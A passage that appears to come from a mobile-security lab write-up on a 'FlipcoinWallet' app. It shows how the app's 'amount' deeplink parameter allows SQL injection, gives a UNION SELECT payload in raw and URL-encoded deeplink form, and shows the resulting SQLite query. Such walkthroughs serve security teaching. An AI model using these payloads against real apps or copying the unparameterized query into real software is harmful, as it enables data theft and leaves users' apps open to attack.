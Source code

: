 **Notice:** 

- Our input `0.0001` is injected directly into the SQL statement without any filtering or use of parameterized queries, which could allow for SQL injection via the `amount` field.”
- To open the deeplink correctly, first launch the app and navigate to the ‘Quick Buy’ screen before opening the deeplink. Do not open the deeplink directly from the home screen.

<br />

Since the `wallet` table contains five columns and the app’s original SQL query uses `SELECT *` to retrieve all columns, any `UNION` injection must also include five columns. For example:

```
flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001 UNION SELECT '1', '2', '3', '4', '5';-- -
```

To open the deeplink correctly, replace spaces with `%20` for URL encoding.

```
flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20UNION%20SELECT%20'1',%20'2',%20'3',%20'4',%20'5';--%20-
```

<br />

After injecting the payload, the executed SQL query becomes:

```sqlite
SELECT * FROM wallet 
WHERE amount > 0.0001  
UNION SELECT '1', '2', '3', '4', '5';-- - 
AND currency = 'flipcoin' 
LIMIT 1;
```



<br /><br />

![](/assets/img/mhl/FlipcoinWallet/8.jpg)
